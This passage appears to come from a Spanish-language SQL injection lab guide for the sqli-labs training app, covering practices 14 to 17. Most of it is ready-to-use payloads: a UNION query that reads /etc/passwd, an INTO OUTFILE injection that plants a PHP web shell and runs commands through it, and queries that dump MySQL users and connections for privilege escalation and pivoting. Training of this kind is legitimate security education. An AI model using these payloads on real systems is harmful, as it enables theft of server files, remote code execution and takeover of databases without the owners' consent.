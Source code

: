 ## **🔹 Práctica 14: Leer Archivos del Servidor con LOAD_FILE()**

📌 **Objetivo**: Obtener archivos del servidor a través de SQL Injection.

**Pasos:**
1️⃣ Prueba en la URL:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 -- -
```

📌 **Si el servidor tiene permisos, devolverá el archivo `/etc/passwd`.**

## **🔹 Práctica 15: Escribir Archivos en el Servidor con INTO OUTFILE**

📌 **Objetivo**: Escribir archivos en el servidor para obtener una shell web.

**Pasos:**
1️⃣ Crea una **web shell** en `/var/www/html/shell.php`:

```php
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,"<?php system($_GET['cmd']); ?>",3 INTO OUTFILE '/var/www/html/shell.php' -- -
```

📌 **Después accede a:**

```php
http://localhost/shell.php?cmd=whoami
```

📌 **Si devuelve `www-data`, significa que ejecutaste comandos en el servidor.**

## **🔹 Práctica 16: Escalamiento de Privilegios en MySQL**

📌 **Objetivo**: Elevar privilegios en MySQL explotando usuarios con permisos elevados.

**Pasos:**
1️⃣ Encuentra los usuarios con privilegios:

```php+HTML
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,group_concat(user,':',host),3 FROM mysql.user -- -
```

📌 **Si `root@localhost` aparece, intenta acceder como `root`.**

## **🔹 Práctica 17: Pivoting con SQL Injection**

📌 **Objetivo**: Usar SQLi para pivotear y moverse lateralmente en la red.

**Pasos:**
1️⃣ Prueba listar conexiones activas:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,group_concat(host),3 FROM information_schema.processlist -- -
```
